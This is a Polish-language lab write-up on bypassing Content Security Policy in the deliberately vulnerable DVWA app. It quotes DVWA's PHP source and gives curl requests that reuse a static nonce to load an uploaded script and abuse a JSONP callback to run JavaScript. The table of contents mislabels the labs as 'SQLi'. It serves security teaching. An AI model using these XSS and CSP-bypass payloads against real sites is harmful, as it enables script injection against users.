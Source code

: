 # CSP - Content Security Policy Bypass
## Opis techniki
<blockquote> Content Security Policy (CSP) służy do definiowania, skąd można ładować lub wykonywać skrypty i inne zasoby. Content-Security-Policy to nazwa nagłówka odpowiedzi HTTP, którego przeglądarki używają do zwiększenia bezpieczeństwa dokumentu (lub strony internetowej). Nagłówek Content-Security-Policy pozwala ograniczyć, które zasoby (takie jak JavaScript, CSS, obrazy itp.) mogą być ładowane i z jakich adresów URL mogą być ładowane.

Chociaż jest on używany głównie jako nagłówek odpowiedzi HTTP, można go również zastosować za pomocą metatagu.

CSP został zaprojektowany w celu zmniejszenia powierzchni ataku ataków Cross Site Scripting (XSS), późniejsze wersje specyfikacji chronią również przed innymi formami ataków, takimi jak Click Jacking.
  
Opisane poniżej podatności nie dotyczą stricte CSP, a błędów w jej implementacji.
</blockquote>

## DVWA labs

- [DVWA SQLi #1 - Medium](#dvwa-csp-1---medium)

- [DVWA SQLi #2 - High](#dvwa-csp-2---high)

Powtórzenie podanych przykładów wymaga zmiany adresu IP oraz tokenu sesji.

<br/>

## DVWA CSP #1 - Medium
Cel: Uruchomienie pliku z kodem JavaScript.

Na poziomie średnim polityka CSP próbuje użyć nonce, aby zapobiec dodawaniu skryptów inline przez atakujących. Nonce jest stałe, więc można je odczytać ze źródła strony i wykorzystać w spreparowanym zapytaniu.

#### Kod źródłowy `PHP` 

```php

 <?php

$headerCSP = "Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';";

header($headerCSP);

// Disable XSS protections so that inline alert boxes will work
header ("X-XSS-Protection: 0");

# <script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>

?>
<?php
if (isset ($_POST['include'])) {
$page[ 'body' ] .= "
    " . $_POST['include'] . "
";
}
$page[ 'body' ] .= '
<form name="csp" method="POST">
    <p>Whatever you enter here gets dropped directly into the page, see if you can get an alert box to pop up.</p>
    <input size="50" type="text" name="include" value="" id="include" />
    <input type="submit" value="Include" />
</form>
';

```
Plik 'new.js' jest wysyłany na serwer zgodnie z opisem podatności wysyłania plików (https://github.com/249064/CBE-BAW-2023/blob/main/file_upload.md). Zostaje umieszczony w ścieżce "../../hackable/uploads/new.js". Kod w pliku: [alert("sukces");].
Następnie wysyłane jest spreparowane zapytanie wykorzystujące XSS do uruchomienia podanego skryptu, wraz z nonce odczytanym ze źródła strony.

#### Komenda `curl` 

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.147.162' -H $'Content-Length: 140' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://10.10.147.162' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Referer: http://10.10.147.162/vulnerabilities/csp/' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    -b $'PHPSESSID=0itseg0m3lh218vibq3kl391k2; security=medium' \
    --data-binary $'include=%3Cscript+nonce%3D%22TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA%3D%22+src%3D%22..%2F..%2Fhackable%2Fuploads%2Fnew.js%22%3E+%3C%2Fscript%3E+' \
    $'http://10.10.147.162/vulnerabilities/csp/'
```

#### Efekt działania skryptu:
![image](https://github.com/Jswierczynsk/sandbox/assets/133172137/4ed1eec7-f776-4291-a0ce-ad1ec1e765e1)

Kod z pliku został wykonany.
<br/>

<br/>
<br/>

## DVWA CSP #2 - High

Cel: Uruchomienie własnego kodu JavaScript

CSP ogranicza zakres skryptów które mogą zostać uruchomione poprzez określenie "script-src 'self'".

#### Kod źródłowy `PHP` 

```php
?php
$headerCSP = "Content-Security-Policy: script-src 'self';";

header($headerCSP);

?>
<?php
if (isset ($_POST['include'])) {
$page[ 'body' ] .= "
    " . $_POST['include'] . "
";
}
$page[ 'body' ] .= '
<form name="csp" method="POST">
    <p>The page makes a call to ' . DVWA_WEB_PAGE_TO_ROOT . '/vulnerabilities/csp/source/jsonp.php to load some code. Modify that page to run your own code.</p>
    <p>1+2+3+4+5=<span id="answer"></span></p>
    <input type="button" id="solve" value="Solve the sum" />
</form>

<script src="source/high.js"></script>
';

```
Przejęte zostaje zapytanie i zmieniony zostaje parametr "callback".

#### Komenda `curl` 

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: 10.10.147.162' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36' -H $'Accept: */*' -H $'Referer: http://10.10.147.162/vulnerabilities/csp/' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    -b $'PHPSESSID=0itseg0m3lh218vibq3kl391k2; security=high' \
    $'http://10.10.147.162/vulnerabilities/csp/source/jsonp.php?callback=alert(\"sukces\")'
```

#### Efekt działania skryptu:
![image](https://github.com/Jswierczynsk/sandbox/assets/133172137/cfca90a2-e322-4807-b987-7ad884d5e97c)

Przekazany kod został uruchomiony mimo wykorzystania CSP.
<br/>

